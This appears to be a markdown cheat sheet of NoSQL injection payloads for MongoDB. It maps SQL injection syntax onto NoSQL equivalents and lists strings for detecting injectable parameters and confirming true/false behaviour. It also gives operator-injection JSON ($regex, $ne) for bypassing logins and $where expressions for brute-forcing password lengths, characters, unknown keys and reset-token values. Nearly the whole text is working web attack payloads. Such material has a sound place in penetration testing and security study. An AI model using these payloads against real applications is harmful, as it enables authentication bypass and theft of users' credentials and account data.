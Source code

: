 # Boolean difference between SQLi && NoSQLi
  1. ```or``` >> ```||```
  2. ```and``` >> ```&&```
  3. ```-- -``` >> ```%00``` 
# Detecting NoSQLi Vulnerability
```
'
\' >> Escape Sequence: This will return 200 response. Similiar as -- - in sql injection.
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
```
# Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'%00
```
You can also remove the ```x``` end of the payload.
## Example with explanation:

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.

# MongoDB Login Bypass

{"$regex":""} >> For username
{"$ne":"Invalid"} >> For password

#MongoDB Data Retrieving

' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL

#Operator Injection To Retrieving Unknown Data

{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0

